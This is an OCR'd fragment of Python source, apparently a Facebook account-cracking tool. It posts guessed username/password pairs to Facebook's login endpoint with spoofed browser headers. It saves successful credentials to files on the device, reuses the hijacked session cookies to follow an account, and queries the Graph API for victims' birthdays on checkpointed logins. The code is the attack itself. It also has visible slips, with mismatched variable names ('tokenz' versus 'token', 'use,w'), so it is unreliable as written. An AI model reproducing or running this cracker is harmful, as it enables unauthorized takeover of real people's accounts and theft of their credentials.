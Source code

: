                      "x-requested-with":"XMLHttpRequest", 
  
                     "sec-fetch-site":"same-origin", 
  
                     "sec-fetch-mode":"cors", 
  
                     "sec-fetch-user":"empty", 
  
                     "sec-fetch-dest":"document", 
  
                     "referer":"https://"+cebok+"/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F", 
  
                     "accept-encoding":"gzip, deflate br", 
  
                     "accept-language":"en-GB,en-US;q=0.9,en;q=0.8" 
  
                 } 
  
                 po = session.post(f"https://{cebok}/login/device-based/validate-password/?shbl=0", data = das, headers = header1, allow_redirects = False) 
  
                 if 'c_user' in session.cookies.get_dict(): 
  
                     coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()]) 
  
                     print(f"\r{H} [Zeeshan-ok 🫶] {user} | {pw}") 
  
                     wrt = '%s|%s' % (user,pw) 
  
                     ok.append(wrt) 
  
                     open('/sdcard/Zeeshan_OK.txt' , 'a').write('%s\n' % wrt) 
  
                     self.follow(session,coki) 
  
                     break 
  
                 elif 'checkpoint' in session.cookies.get_dict(): 
  
                     try: 
  
                         tokenz = open('.token.txt').read() 
  
                         cp_ttl = session.get(f'https://graph.facebook.com/{user}?fields=birthday&access_token={token}').json()['birthday'] 
  
                         month, day, year = cp_ttl.split('/') 
  
                         month = bulan_ttl[month] 
  
  
  
                         wrt = '%s|%s' % (use,w) 
  
                         cp.append(wrt) 
  
                         open('/sdcard/Zeeshan_CP.txt' , 'a').write('%s\n' % wrt) 
  
                         break 
  
                     except (KeyError, IOError): 
  
                         month = '' 
  